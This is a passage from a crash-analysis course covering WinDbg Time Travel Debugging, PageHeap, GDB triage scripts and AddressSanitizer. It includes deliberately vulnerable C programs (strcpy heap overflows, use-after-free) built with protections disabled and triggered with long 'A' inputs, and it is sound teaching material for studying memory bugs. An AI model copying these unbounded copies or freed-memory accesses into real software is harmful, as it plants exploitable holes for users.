0:000> dx @$cursession.TTD.Calls("vuln_win!stack_overflow")[0].Parameters

# Step 5: Find all reads from the input buffer to trace data flow
0:000> dx @$cursession.TTD.Memory(0xa3d5d3, 0xa3d5d3+0x100, "r")

# Shows every instruction that read from the malicious input
```

**Practical TTD Crash Analysis: Use-After-Free in vuln_win.exe**:

This example demonstrates TTD's power for analyzing UAF bugs:

```bash

# Step 1: Enable PageHeap for reliable UAF detection (run as admin)
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\gflags.exe" /p /enable vuln_win.exe /full

# Step 5: Find all heap frees and identify the one matching crash address
0:000> dx @$cursession.TTD.Calls("ntdll!RtlFreeHeap")

# [0x0], [0x1], [0x2]  <- Three frees in the trace

0:000> dx @$cursession.TTD.Calls("ntdll!RtlFreeHeap")[2].Parameters

# ReturnValue      : 0x1  <- Free succeeded

0:000> dx @$cursession.TTD.Calls("ntdll!RtlFreeHeap")[2].TimeStart.SeekTo()
0:000> k

# Step 7: Navigate to use_after_free function entry
0:000> dx @$cursession.TTD.Calls("vuln_win!use_after_free")[0]

# TimeEnd   : Max Position <- Never returned (crashed)

0:000> dx @$cursession.TTD.Calls("vuln_win!use_after_free")[0].TimeStart.SeekTo()
0:000> k

# "C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\gflags.exe" /p /disable vuln_win.exe
```

**TTD Best Practices**:

1. **Record Minimal Scope**: Only record the crashing process to keep traces manageable
2. **Use Breakpoints Wisely**: Set breakpoints before recording to stop at interesting points
3. **Leverage Data Model**: TTD queries are more powerful than manual navigation
4. **Save Interesting Positions**: Use `!positions` to bookmark important execution points
5. **Combine with Memory Analysis**: Use TTD to find when corruption occurred, traditional commands to analyze it
6. **Enable PageHeap for Heap Bugs**: TTD + PageHeap gives you allocation/free stacks AND time travel

**TTD Limitations**:

- **Trace Size**: Long-running processes create large trace files (GBs)
- **Performance**: Recording adds ~10-20x slowdown
- **Windows Only**: No Linux equivalent (use rr instead - see Day 4)
- **No Kernel Mode**: TTD is user-mode only
- **x64 Only**: No 32-bit support in modern versions
- **WinDbg Preview Required**: Classic WinDbg from Windows SDK doesn't include TTD

### Black-Box Crash Analysis

> [!IMPORTANT]
> In real-world vulnerability research, especially on Windows, you rarely have source code.
> The sanitizer-based techniques in Day 2 require recompilation. This section covers black-box techniques for when you can't recompile.

**When to Use Black-Box Analysis**:

- Analyzing crashes in closed-source software (Microsoft, Adobe, etc.)
- Third-party libraries shipped as binaries
- Malware analysis
- CTF challenges without source
- Production crash dumps from customers

**Setup: Creating a Symbol-less Binary for Practice**:

```bash

# Compile without debug symbols to simulate closed-source binary
cl /O2 /GS- src\vulnerable_suite_win.c /Fe:vuln_win_nosym.exe

# 0b vuln_win_nosym+0x1098      <- Vulnerable function (returns to 0x41414141)
```

**Module and Section Analysis**:

```bash

# Disassemble the function that crashed (identified from call stack)
0:000> u vuln_win_nosym+0x1010 L50

# Dump Import Address Table to identify API calls
0:000> dps vuln_win_nosym+0x17000 L20

#### WinDbg Scripting for Black-Box Analysis

**Automated Crash Classification Script**:

```javascript
// crash_classify.js - Save to C:\CrashAnalysisLab\crash_classify.js
// Run with: .scriptrun C:\CrashAnalysisLab\crash_classify.js

"use strict";

function initializeScript() {
  return [new host.apiVersionSupport(1, 7)];
}

function invokeScript() {
  var dbgControl = host.namespace.Debugger.Utility.Control;
  var regs = host.currentThread.Registers.User;

  host.diagnostics.debugLog("=== BLACK-BOX CRASH ANALYSIS ===\n\n");

  // Get exception record
  host.diagnostics.debugLog("[*] Exception Record:\n");
  try {
    var exrOutput = dbgControl.ExecuteCommand(".exr -1");
    for (var line of exrOutput) {
      host.diagnostics.debugLog("    " + line + "\n");
    }
  } catch (e) {
    host.diagnostics.debugLog("    Could not get exception record\n");
  }

  // Check RIP validity and controlled input patterns
  host.diagnostics.debugLog("\n[*] Register Analysis:\n");

  var patterns = {
    41414141: "ASCII 'AAAA' - controlled input!",
    42424242: "ASCII 'BBBB' - controlled input!",
    43434343: "ASCII 'CCCC' - controlled input!",
    cccccccc: "Uninitialized stack (MSVC debug)",
    cdcdcdcd: "Uninitialized heap (MSVC debug)",
    c0c0c0c0: "PageHeap freed memory",
    feeefeee: "Freed heap memory (MSVC debug)",
    baadf00d: "Uninitialized heap (LocalAlloc)",
    deadbeef: "Marker value (test/exploit)",
  };

  var criticalRegs = ["Rip", "Rax", "Rbx", "Rcx", "Rdx", "Rsi", "Rdi", "Rsp"];
  var ripControlled = false;

  for (var i = 0; i < criticalRegs.length; i++) {
    var regName = criticalRegs[i];
    try {
      var regVal = regs[regName];
      var val = regVal.toString(16);
      // Pad to 16 chars
      while (val.length < 16) {
        val = "0" + val;
      }
      var analysis = "";

      for (var pattern in patterns) {
        if (val.toLowerCase().indexOf(pattern) !== -1) {
          analysis = " <- " + patterns[pattern];
          if (regName === "Rip") {
            ripControlled = true;
          }
          break;
        }
      }

      host.diagnostics.debugLog(
        "    " + regName + ": 0x" + val + analysis + "\n",
      );
    } catch (e) {
      host.diagnostics.debugLog("    " + regName + ": <error reading>\n");
    }
  }

  // Exploitability assessment
  host.diagnostics.debugLog("\n[*] Exploitability Assessment:\n");

  if (ripControlled) {
    host.diagnostics.debugLog(
      "    [CRITICAL] RIP contains controlled pattern - EXPLOITABLE!\n",
    );
    host.diagnostics.debugLog(
      "    Stack overflow with RIP control detected.\n",
    );
  } else {
    // Try to disassemble at RIP
    try {
      var uOutput = dbgControl.ExecuteCommand("u @rip L1");
      var instruction = "";
      for (var line of uOutput) {
        instruction += line + " ";
      }

      if (instruction.indexOf("???") !== -1) {
        host.diagnostics.debugLog(
          "    [HIGH] Invalid instruction at RIP - likely controlled\n",
        );
      } else if (
        instruction.indexOf("mov") !== -1 &&
        instruction.indexOf("[") !== -1
      ) {
        host.diagnostics.debugLog(
          "    [HIGH] Crash on memory access - potential read/write primitive\n",
        );
      } else if (
        instruction.indexOf("call") !== -1 &&
        instruction.indexOf("[") !== -1
      ) {
        host.diagnostics.debugLog(
          "    [HIGH] Crash on indirect call - potential code execution\n",
        );
      } else {
        host.diagnostics.debugLog(
          "    [MEDIUM] Examine crash context for exploitability\n",
        );
      }
    } catch (e) {
      host.diagnostics.debugLog(
        "    [HIGH] Cannot disassemble at RIP - address likely controlled\n",
      );
    }
  }

  // Stack analysis for return addresses
  host.diagnostics.debugLog("\n[*] Stack Analysis (valid return addresses):\n");
  try {
    var stackOutput = dbgControl.ExecuteCommand("dps @rsp L20");
    var validAddrs = 0;
    var controlledAddrs = 0;

    for (var line of stackOutput) {
      var lineStr = line.toString();
      if (
        lineStr.indexOf("41414141") !== -1 ||
        lineStr.indexOf("42424242") !== -1
      ) {
        controlledAddrs++;
      }
      if (lineStr.indexOf("!") !== -1) {
        validAddrs++;
        host.diagnostics.debugLog("    " + lineStr + "\n");
      }
    }

    host.diagnostics.debugLog(
      "\n    Valid return addresses: " + validAddrs + "\n",
    );
    host.diagnostics.debugLog(
      "    Controlled values on stack: " + controlledAddrs + "\n",
    );
  } catch (e) {
    host.diagnostics.debugLog("    <error reading stack>\n");
  }

  host.diagnostics.debugLog("\n=== END ANALYSIS ===\n");
}
```

**Usage**:

```bash

# Run the analysis script (uses invokeScript automatically)
0:000> .scriptrun C:\CrashAnalysisLab\crash_classify.js
#JavaScript script successfully loaded from 'C:\CrashAnalysisLab\crash_classify.js'
#=== BLACK-BOX CRASH ANALYSIS ===

#    [HIGH] Cannot disassemble at RIP - address likely controlled
#[*] Stack Analysis (valid return addresses):

# Search binary for strings (clues about functionality)
0:000> s -a vuln_win_nosym L28000 "overflow"

# 00007ff7`737874dd  "overflow (need ~100+ chars)..."
```

**GDB/Pwndbg Black-Box Script**:

```python

# blackbox_analyze.py - Source this in GDB: source blackbox_analyze.py
import gdb

class BlackBoxAnalyze(gdb.Command):
    """Analyze crash without symbols"""

    def __init__(self):
        super(BlackBoxAnalyze, self).__init__("bb-analyze", gdb.COMMAND_USER)

    def invoke(self, arg, from_tty):
        print("=== BLACK-BOX CRASH ANALYSIS ===\n")

        # Get exception record
        try:
            pc = int(gdb.parse_and_eval("$pc"))
            print(f"[*] Crash at: {hex(pc)}")
        except:
            print("[-] Could not get program counter")
            return

        # Check instruction at crash
        print("\n[*] Crash Instruction:")
        try:
            gdb.execute(f"x/10i {pc-20}")
        except gdb.MemoryError:
            print(f"    Cannot disassemble at {hex(pc)} - address not mapped")
            print("    (PC likely contains attacker-controlled value)")

        # Register analysis
        print("\n[*] Register Analysis:")
        controlled_patterns = [0x41414141, 0x42424242, 0x61616161]

        for reg in ["rax", "rbx", "rcx", "rdx", "rsi", "rdi", "r8", "r9"]:
            try:
                val = int(gdb.parse_and_eval(f"${reg}"))
                analysis = ""

                # Check for controlled input
                for pattern in controlled_patterns:
                    if (val & 0xffffffff) == pattern or (val >> 32) == pattern:
                        analysis = " <- CONTROLLED INPUT!"
                        break

                # Check for null
                if val == 0:
                    analysis = " <- NULL"

                # Check for heap-like address
                if 0x10000 < val < 0x800000000000:
                    analysis = analysis or " <- possible heap/data"

                print(f"    {reg}: {hex(val)}{analysis}")
            except:
                pass

        # Stack analysis
        print("\n[*] Stack Contents (potential return addresses):")
        try:
            gdb.execute("x/20gx $rsp")
        except:
            gdb.execute("x/20wx $esp")

        # Exploitability hints
        print("\n[*] Exploitability Assessment:")

        # Check if PC is controlled
        pc_controlled = False
        for pattern in controlled_patterns:
            if (pc & 0xffffffff) == pattern or (pc >> 32) == pattern:
                print("    [CRITICAL] Program counter contains controlled input!")
                pc_controlled = True
                break

        # Check for common exploit marker patterns
        marker_patterns = {
            0xdeadbeef: "DEADBEEF marker",
            0xcafebabe: "CAFEBABE marker",
            0xdeadc0de: "DEADC0DE marker",
            0xfeedface: "FEEDFACE marker",
        }
        if not pc_controlled:
            pc_lower = pc & 0xffffffff
            pc_upper = (pc >> 32) & 0xffffffff
            for pattern, name in marker_patterns.items():
                if pc_lower == pattern or pc_upper == pattern:
                    print(f"    [CRITICAL] PC contains {name} - likely controlled!")
                    pc_controlled = True
                    break

        # Check if PC is in non-executable region (indicates control)
        if not pc_controlled and pc > 0x7f0000000000:
            print("    [WARNING] PC in high memory - possible stack/heap address")
        elif not pc_controlled and pc < 0x10000:
            print("    [WARNING] PC near NULL - possible partial overwrite")
        elif not pc_controlled:
            print("    [INFO] PC not directly controlled - check for indirect paths")

BlackBoxAnalyze()
print("Black-box analysis command loaded. Use: bb-analyze")
```

### Lab: Root Cause ≠ Crash Site

**The Problem**:

- Heap corruption crashes often occur in `malloc()`/`free()` consistency checks
- The actual overflow/UAF happened earlier—sometimes thousands of instructions before
- Without understanding this, you'll waste hours staring at allocator internals

#### Lab Setup: The Delayed Corruption Bug

**vulnerable_delayed.c** - A bug where corruption and crash are separated:

```c
// ~/crash_analysis_lab/src/vulnerable_delayed.c
// The bug is in process_data(), but the crash is in cleanup()
// This version uses HEAP allocations to demonstrate delayed corruption
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct metadata {
    size_t size;
    char* data;
    struct metadata* next;
};

struct metadata* head = NULL;

void add_entry(const char* input) {
    struct metadata* entry = malloc(sizeof(struct metadata));
    entry->size = strlen(input);
    entry->data = malloc(entry->size + 1);
    strcpy(entry->data, input);
    entry->next = head;
    head = entry;
    printf("[+] Added entry at %p (data=%p, next=%p)\n", entry, entry->data, entry->next);
}

void process_data(const char* input) {
    if (head == NULL) return;

    char* buffer = malloc(16);
    printf("[*] Allocated 16-byte buffer at %p\n", buffer);
    printf("[*] About to copy %zu bytes into 16-byte buffer...\n", strlen(input));

    strcpy(buffer, input);  // OVERFLOW if input > 16 bytes!

    printf("[*] Copy complete (overflow occurred if input > 16 bytes)\n");
    // Note: we intentionally don't free buffer here to keep corruption intact
}

void cleanup() {
    printf("[*] Starting cleanup - traversing linked list...\n");
    struct metadata* current = head;
    int i = 0;
    while (current) {
        printf("[*] Entry %d: current=%p, data=%p, next=%p\n",
               i++, current, current->data, current->next);
        struct metadata* next = current->next;
        free(current->data);
        free(current);
        current = next;
    }
    printf("[*] Cleanup complete\n");
}

int main(int argc, char** argv) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        printf("Example: %s $(python3 -c \"print('A'*200)\")\n", argv[0]);
        return 1;
    }

    printf("[*] Creating linked list entries...\n");
    add_entry("normal entry 1");
    add_entry("normal entry 2");

    printf("\n[*] Processing user input (%zu bytes)...\n", strlen(argv[1]));
    process_data(argv[1]);

    printf("\n[*] Adding more entries after overflow...\n");
    add_entry("post-overflow entry");

    printf("\n[*] Starting cleanup (CRASH likely here, not in process_data!)...\n");
    cleanup();

    printf("[*] Program completed successfully\n");
    return 0;
}
```

# Build WITHOUT sanitizers
cd ~/crash_analysis_lab
gcc -g -fno-stack-protector -o delayed_vuln src/vulnerable_delayed.c
source .venv/bin/activate

# Trigger the bug with a LARGE overflow (200+ bytes needed to corrupt heap structures)
./delayed_vuln $(python3 -c "print('A'*200)")

# Backtrace shows crash in add_entry() NOT in process_data() where the bug actually is!
```

**What You'll See**:

- Crash occurs in `add_entry()` or `cleanup()` - NOT in `process_data()`!
- The error message is `malloc(): corrupted top size` - heap corruption detected
- Backtrace shows allocator functions (`_int_malloc`, `malloc_printerr`, etc.)
- The actual vulnerable `strcpy()` in `process_data()` is NOT visible in the backtrace
- Signal is SIGABRT (from allocator detecting corruption)

**Example backtrace** (notice `process_data` is NOT shown):

```text
#0  __pthread_kill_implementation at ./nptl/pthread_kill.c:44
#1-4  ... (signal handling) ...
#5  __libc_message_impl at ../sysdeps/posix/libc_fatal.c:134
#6  malloc_printerr (str="malloc(): corrupted top size")
#7  _int_malloc at ./malloc/malloc.c:4447
#8  __GI___libc_malloc
#9  add_entry (input="post-overflow entry") at vulnerable_delayed.c:17  <-- CRASH HERE
#10 main at vulnerable_delayed.c:78
```

The crash is in `add_entry()` during a `malloc()` call - the allocator detected that heap metadata was corrupted. But the **actual bug** is in `process_data()` which overwrote heap structures with 'A's.

# Build WITH ASAN
gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer \
    -U_FORTIFY_SOURCE -o delayed_vuln_asan src/vulnerable_delayed.c

# Now ASAN catches the overflow AT THE SOURCE (even with small overflow!)
./delayed_vuln_asan $(python3 -c "print('A'*20)")
```

**ASAN Output** (shows TRUE root cause):

```text
[*] Creating linked list entries...
[+] Added entry at 0x503000000040 (data=0x502000000010, next=(nil))
[+] Added entry at 0x503000000070 (data=0x502000000030, next=0x503000000040)

[*] Processing user input (20 bytes)...
[*] Allocated 16-byte buffer at 0x502000000050
[*] About to copy 20 bytes into 16-byte buffer...
=================================================================
==3871==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x502000000060 at pc 0x7174a0ca7923 bp 0x7ffee2ef7d60 sp 0x7ffee2ef7508
WRITE of size 21 at 0x502000000060 thread T0
    #0 0x7174a0ca7922 in strcpy ../../../../src/libsanitizer/asan/asan_interceptors.cpp:563
    #1 0x6273088c443c in process_data src/vulnerable_delayed.c:36
    #2 0x6273088c46e8 in main src/vulnerable_delayed.c:75
    #3 0x7174a082a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #4 0x7174a082a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #5 0x6273088c41e4 in _start (/home/dev/crash_analysis_lab/delayed_vuln_asan+0x11e4) (BuildId: 5ba4175df72d24b28ce5932020c5be09d8b70064)

0x502000000060 is located 0 bytes after 16-byte region [0x502000000050,0x502000000060)
allocated by thread T0 here:
    #0 0x7174a0cfd9c7 in malloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:69
    #1 0x6273088c43e7 in process_data src/vulnerable_delayed.c:31
    #2 0x6273088c46e8 in main src/vulnerable_delayed.c:75
    #3 0x7174a082a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #4 0x7174a082a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #5 0x6273088c41e4 in _start (/home/dev/crash_analysis_lab/delayed_vuln_asan+0x11e4) (BuildId: 5ba4175df72d24b28ce5932020c5be09d8b70064)

SUMMARY: AddressSanitizer: heap-buffer-overflow ../../../../src/libsanitizer/asan/asan_interceptors.cpp:563 in strcpy
```

#### Exercise Part 3: Find Root Cause with Watchpoints/rr

When you can't use ASAN (closed-source binary, can't recompile):

```bash

# Break in process_data first to skip add_entry's strcpy calls
(gdb) break process_data
(gdb) run $(python3 -c "print('A'*200)")

# Now set breakpoint on strcpy and continue - next hit is the vulnerable one
(gdb) break strcpy
(gdb) continue

# Set watchpoint on top chunk size field (buffer + 0x18 for 16-byte alloc)
(gdb) set $buf = $rdi
(gdb) watch *(long*)($buf + 0x18)

(gdb) continue

#### Exercise Part 4: Document the Difference

Create a comparison table of what you observed:

```markdown
| Aspect               | Without ASAN             | With ASAN               |
| -------------------- | ------------------------ | ----------------------- |
| Crash Location       | add_entry() or cleanup() | process_data():strcpy() |
| Signal               | SIGABRT (allocator)      | SIGABRT (ASAN)          |
| Backtrace shows bug? | NO                       | YES                     |
| Root cause visible?  | NO                       | YES                     |
| Time to identify     | 30+ minutes              | 5 seconds               |
```

#### Lab Deliverables

1. **Screenshot/log** of non-ASAN crash (showing misleading backtrace)
2. **Screenshot/log** of ASAN crash (showing true root cause)
3. **GDB transcript** showing watchpoint catching the overflow
4. **Written explanation** (2-3 sentences) of why the crash and bug are in different locations

**Success Criteria**:

- Understand that crash site ≠ bug site for heap corruption
- Can use ASAN to find true root cause
- Can use watchpoints/rr to trace corruption without ASAN
- Can explain the delayed corruption phenomenon

# Find all heap frees and check parameters for matching address
0:000> dx @$cursession.TTD.Calls("ntdll!RtlFreeHeap")

# Examine each one:
0:000> dx @$cursession.TTD.Calls("ntdll!RtlFreeHeap")[0].Parameters
0:000> dx @$cursession.TTD.Calls("ntdll!RtlFreeHeap")[1].Parameters

# Check: Compare vtable to known vtables
0:000> dps poi(@rcx) L10    # Dump vtable methods

# Use TTD to find where wrong type was assumed
0:000> !tt 0
0:000> ba r 8 @rcx          # Break on reads of this object (can be noisy)
0:000> g                     # Observe the code that reads/uses the object
```

**3. Recognizing Logic Bugs**:

```bash

# Use TTD to check for interleaved operations
0:000> !tt 0
0:000> bp kernelbase!CreateFileW
0:000> bp kernelbase!CloseHandle
0:000> g

### Practical Exercise

> [!NOTE]
> You should have already built the vulnerable test suite earlier in this section. If not, scroll up to "Building a Vulnerable Test Suite (Do This First!)" and complete that setup before continuing.

#### Alternative: Pre-built Vulnerable Targets

If you want additional crash samples beyond the test suite:

```bash

# CASR includes test cases with sample crash reports
git clone --depth 1 https://github.com/ispras/casr.git ~/casr-tests
ls ~/casr-tests/casr/tests/casr_tests/casrep/

# Fuzzing101 has vulnerable targets with known bugs
git clone --depth 1 https://github.com/antonio-morales/Fuzzing101.git ~/Fuzzing101

#### Tasks

**Task**: Analyze 5 different crash types and classify each

Using the test suite you built above (or crashes from your Week 2 fuzzing), analyze each crash type.

**Crash Types to Generate and Analyze (Linux)**:

1. `stack_overflow` - Run: `./vuln_no_protect 1 $(python3 -c "print('A'*200)")`
2. `heap_overflow` - Run: `./vuln_asan 2 $(python3 -c "print('A'*100)")`
3. `use_after_free` - Run: `./vuln_asan 3`
4. `double_free` - Run: `./vuln_asan 4`
5. `null_deref` - Run: `./vuln_no_protect 5 0`

**Crash Types to Generate and Analyze (Windows with TTD)**:

1. `stack_overflow` - Record with TTD: `vuln_win.exe 1 AAAA...(200+ chars)`
2. `heap_overflow` - Enable PageHeap first, then: `vuln_win.exe 2 AAAA...(100+ chars)`
3. `use_after_free` - Enable PageHeap first, then: `vuln_win.exe 3`
4. `double_free` - Run: `vuln_win.exe 4`
5. `null_deref` - Run: `vuln_win.exe 5 0`

**For Each Crash (WinDbg)**:

1. **Load and Get Overview**:

   ```bash
   # For dump files:
   windbg -z <dump_file>
   !analyze -v

   # For TTD traces:
   # File → Open trace file → Select .run file
   0:000> g              # Run to crash
   0:000> !analyze -v
   ```

2. **Examine Crash State**:

   ```bash
   0:000> k          # Call stack
   0:000> r          # Registers
   0:000> u @rip     # Current instruction
   0:000> dps @rsp L20  # Stack contents
   ```

3. **For TTD Traces - Find Root Cause**:

   ```bash
   0:000> !tt 0                    # Go to start
   0:000> dx @$cursession.TTD.Calls("ntdll!RtlFreeHeap")  # Find heap frees
   0:000> dx @$cursession.TTD.Memory(<addr>, <addr>+8, "w")  # Find writes
   ```

**For Each Crash (GDB/Linux)**:

1. **Load and Get Overview**:

   ```bash
   gdb ./vuln_no_protect core
   bt                    # Backtrace
   info registers        # Registers
   ```

2. **Examine Crash State**:

   ```bash
   x/10i $rip           # Disassemble at crash
   x/20gx $rsp          # Stack contents
   ```

**Classify Bug Type**:

- What register/memory caused crash?
- What operation was attempted?
- What's the root cause?

**Assess Exploitability**:

- Can attacker control crash address?
- Is value being written controllable?
- Are there mitigations active?

**Document Findings**:

```markdown

## Crash: stack_overflow

- **Type**: Stack Buffer Overflow
- **Location**: vulnerable_function+0x42
- **Cause**: strcpy without bounds checking
- **Controlled**: Return address, saved registers
- **Exploitability**: High (if DEP/ASLR bypassed)
```

**Success Criteria**:

- All 5 dumps analyzed
- Correct crash type identified for each
- Root cause understood
- Exploitability assessment provided
- Findings documented clearly

### Lab: PageHeap/AppVerifier for Windows

> [!IMPORTANT]
> PageHeap is the Windows equivalent of ASAN for heap bugs—it surrounds allocations with guard pages and tracks allocation/free stacks.

#### What PageHeap Does

PageHeap (part of Application Verifier / gflags) modifies the Windows heap to:

- Place each allocation on its own page boundary
- Add inaccessible guard pages after allocations
- Keep freed memory inaccessible (catches UAF immediately)
- Record allocation and free stack traces

```text
Normal Heap:                    PageHeap (Full):
┌──────────────────────┐       ┌──────────────────────┐
│ alloc1 │ alloc2 │ ...│       │ alloc1 │ GUARD PAGE  │
└──────────────────────┘       ├──────────────────────┤
                               │ alloc2 │ GUARD PAGE  │
Overflow goes undetected       └──────────────────────┘
                               Overflow hits guard → CRASH
```

#### Lab Setup

> [!TIP]
> You can also use `vuln_win.exe` from the "Building a Windows Vulnerable Test Suite" section earlier in Day 1.
> The dedicated `heap_vuln.c` below is simpler and focused specifically on heap bugs for this lab.

**1. Create Vulnerable Windows Program**:

```c
// c:\CrashAnalysisLab/src/heap_vuln.c - Compile with: cl /Zi src/heap_vuln.c
#include <windows.h>
#include <stdio.h>
#include <string.h>

void heap_overflow(char* input) {
    char* buf = (char*)HeapAlloc(GetProcessHeap(), 0, 32);
    printf("[*] Allocated 32 bytes at %p\n", buf);

    // OVERFLOW: strcpy has no bounds check
    strcpy(buf, input);
    printf("[*] Copied: %s\n", buf);

    HeapFree(GetProcessHeap(), 0, buf);
}

void use_after_free() {
    char* buf = (char*)HeapAlloc(GetProcessHeap(), 0, 64);
    printf("[*] Allocated at %p\n", buf);
    strcpy(buf, "Hello World");

    HeapFree(GetProcessHeap(), 0, buf);
    printf("[*] Freed\n");

    // UAF: Access after free
    printf("[*] UAF read: %s\n", buf);
    buf[0] = 'X';  // UAF write
}

int main(int argc, char** argv) {
    if (argc < 2) {
        printf("Usage: %s <1|2> [input]\n", argv[0]);
        printf("  1 <input> - Heap overflow\n");
        printf("  2         - Use-after-free\n");
        return 1;
    }

    switch(atoi(argv[1])) {
        case 1:
            if (argc < 3) return 1;
            heap_overflow(argv[2]);
            break;
        case 2:
            use_after_free();
            break;
    }

    printf("[*] Done\n");
    return 0;
}
```

**2. Compile the Test Program**:

```bash
cd c:\CrashAnalysisLab

# Open "x64 Native Tools Command Prompt for VS 2022"
cl /Zi /Od src/heap_vuln.c /link /DEBUG
```

# Without PageHeap, many heap bugs don't crash immediately
heap_vuln.exe 1 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

# May print stale data without crashing - UAF went undetected!
```

**Step 2: Enable PageHeap**:

```bash

# Run as Administrator
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\gflags.exe" /p /enable heap_vuln.exe /full

# Add heap_vuln.exe → Check "Heaps" under "Basics"
```

**Step 3: Reproduce with PageHeap (crashes immediately)**:

```bash

# Use the address from r11 (guard page area) or the buffer start
0:000> !heap -p -a 0000015b52cf6fe0
    address 0000015b52cf6fe0 found in
    _DPH_HEAP_ROOT @ 15b529e1000
    in busy allocation (DPH_HEAP_BLOCK:  UserAddr      UserSize - VirtAddr      VirtSize)
                         15b529ea618:   15b52cf6fe0         20 - 15b52cf6000       2000
    # UserSize: 0x20 = 32 bytes (your HeapAlloc request)
    # VirtSize: 0x2000 = 8KB page allocated by PageHeap for protection

    # ALLOCATION STACK TRACE (shows where memory was allocated):
    00007ffd24f30727 ntdll!RtlDebugAllocateHeap+0x387
    00007ffd24f32f3a ntdll!RtlpAllocateHeap+0x246a
    00007ffd24efd0d1 ntdll!RtlpAllocateNTHeapInternal+0x3d1
    00007ffd24efcca4 ntdll!RtlAllocateHeap+0xad4
    00007ff76a367270 heap_vuln!heap_overflow+0x20 [heap_vuln.c @ 6]   <-- HeapAlloc call
    00007ff76a367411 heap_vuln!main+0xa1 [heap_vuln.c @ 40]
    00007ff76a3677c8 heap_vuln!__scrt_common_main_seh+0x10c

# Shows: HEAP_CORRUPTION, faulting module, and root cause analysis
```

**For UAF (Use-After-Free) Analysis**:

```bash

# View call stack - shows UAF access path:
0:000> kb
0f heap_vuln!use_after_free+0x75 [heap_vuln.c @ 26]  <-- printf("%s", ptr) after free
10 heap_vuln!main+0xa9 [heap_vuln.c @ 43]

# Get heap info - NOTE: use !ext.heap on newer WinDbg versions
0:000> !ext.heap -p -a 0000022bc3fa6fc0
    address 0000022bc3fa6fc0 found in
    _DPH_HEAP_ROOT @ 22bc3c91000
    in free-ed allocation    <-- PageHeap knows this was FREED!

    # FREE STACK TRACE (shows where memory was freed):
    00007ffd24f6b2d3 ntdll!RtlDebugFreeHeap+0x37
    00007ffd24f0370c ntdll!RtlpFreeHeap+0x178c
    00007ffd24f59300 ntdll!RtlFreeHeap+0x620
    00007ff76a367328 heap_vuln!use_after_free+0x58 [heap_vuln.c @ 22]  <-- HeapFree call!
    00007ff76a367419 heap_vuln!main+0xa9 [heap_vuln.c @ 43]

# 3. PageHeap protected the freed memory, causing immediate crash
```

**Step 5: Check Mitigations with PowerShell**:

```powershell

# First, run heap_vuln.exe under WinDbg (paused), then in another terminal:
Get-Process heap_vuln | Get-ProcessMitigation

# Example output for heap_vuln.exe:
ProcessName: heap_vuln
Source     : Running Process
Id         : 10468

DEP:
  Enable                : ON      # Can't execute code on stack/heap
  EmulateAtlThunks      : ON

ASLR:
  BottomUp              : ON      # Address randomization active
  HighEntropy           : ON      # 64-bit high entropy ASLR
  ForceRelocateImages   : OFF

CFG:
  Enable                : OFF     # Not compiled with /guard:cf

SEHOP:
  Enable                : ON      # SEH overwrite protection

# If you used gflags:
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\gflags.exe" /p /disable heap_vuln.exe

# Alternative: Clear all gflags for the executable
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\gflags.exe" /i heap_vuln.exe -ust -hpa
```

#### Lab Deliverables

1. **Screenshot**: gflags showing PageHeap enabled
2. **WinDbg log**: `!heap -p -a` output showing allocation stack
3. **Comparison**: Document behavior with/without PageHeap
4. **PowerShell output**: `Get-ProcessMitigation` results

### Key Takeaways

1. **WinDbg is essential**: Primary tool for Windows crash analysis
2. **Symbols are crucial**: Without symbols, analysis is much harder
3. **Crash patterns are recognizable**: Common patterns indicate specific bug types
4. **Context matters**: Same crash can have different exploitability based on mitigations
5. **Practice builds speed**: Analyzing many crashes makes patterns obvious
6. **Pattern recognition is essential**: Learn to recognize crash signatures without symbols
7. **Registers tell the story**: Systematic register analysis reveals control
8. **Scripts accelerate triage**: Automate repetitive analysis tasks
9. **TTD is powerful**: Time-travel debugging helps even without symbols
10. **Document methodology**: Structured reports help track analysis
11. **PageHeap is essential**: Windows heap bug detection requires it

### Discussion Questions

1. How do stack cookies change the exploitability of stack overflows?
2. What information can be gained from a crash even if it's not directly exploitable?
3. How does Page Heap help identify heap corruption root causes?
4. How does Time Travel Debugging (TTD) change your approach to finding where memory corruption originated, compared to traditional forward-only debugging?

## Day 2: AddressSanitizer and Memory Error Classification

- **Goal**: Use AddressSanitizer (ASAN) to detect and classify memory errors with detailed diagnostics.
- **Activities**:
  - _Reading_:
    - [AddressSanitizer Algorithm](https://github.com/google/sanitizers/wiki/AddressSanitizerAlgorithm)
    - [AddressSanitizer Memory Error Types](https://clang.llvm.org/docs/AddressSanitizer.html)
  - _Online Resources_:
    - [LLVM Sanitizer Documentation](https://clang.llvm.org/docs/index.html)
    - [Google Sanitizers Wiki](https://github.com/google/sanitizers/wiki)
  - _Tool Setup_:
    - Clang compiler with ASAN support
    - Visual Studio 2022+ (for Windows ASAN)
  - _Exercise_:
    - Compile test programs with ASAN
    - Trigger and classify 10 different memory error types

### Understanding AddressSanitizer

> [!TIP]
> **Ubuntu Quick Setup** - Copy this environment block before running ASAN-compiled binaries:
>
> ```bash
> # Recommended ASAN/UBSAN environment for Ubuntu
> export ASAN_SYMBOLIZER_PATH=$(command -v llvm-symbolizer)
> export ASAN_OPTIONS="abort_on_error=1:symbolize=1:detect_leaks=1:disable_coredump=0"
> export UBSAN_OPTIONS="print_stacktrace=1:halt_on_error=1"
> ```
>
> **Key options explained**:
>
> - `abort_on_error=1`: Abort on first error (generates signal for debugging)
> - `disable_coredump=0`: Allow core dump generation even with ASAN
> - `detect_leaks=1`: Enable LeakSanitizer (LSan)
> - `symbolize=1`: Show source file/line in reports
>
> **Note on ASAN + core dumps**: ASAN often calls `abort()` on errors, which generates SIGABRT (-6), not SIGSEGV (-11). Set `disable_coredump=0` if you need core dumps for post-mortem analysis.

